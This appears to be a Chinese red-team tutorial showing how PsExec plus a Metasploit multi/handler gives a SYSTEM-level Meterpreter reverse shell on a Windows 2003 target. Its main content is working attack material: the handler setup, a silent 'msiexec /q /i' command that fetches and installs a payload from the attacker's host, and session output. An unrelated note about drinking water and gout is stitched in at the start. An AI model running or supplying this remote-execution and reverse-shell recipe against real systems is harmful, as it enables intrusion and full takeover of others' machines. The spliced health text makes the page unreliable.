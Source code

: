 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### PsExec简介：

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

微软官方文档：  
https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

说明：PsExec.exe没有默认安装在windows系统。

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：

```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](/img/665d55d525ed72757f30454ada5a71de.jpg)

### 靶机执行：
![](/img/3832b47f170fb110c44a283765b4bfd4.jpg)

```bash
PsExec.exe -d -s msiexec.exe /q /i <http://192.168.1.4/Micropoor_rev_x86_msi_53.txt>
```

![](/img/ac4359c43440d555b4e873409425927c.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53

[*] Sending stage (179779 bytes) to 192.168.1.119

[*] Meterpreter session 11 opened (192.168.1.4:53 ‐> 192.168.1.119:131) at 2019‐01‐20 05:43:32 ‐0500 

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter > getpid

Current pid: 728

meterpreter > 
```
![](/img/14842fe0c4f8775c8de53de6583282a1.jpg)

>   Micropoor
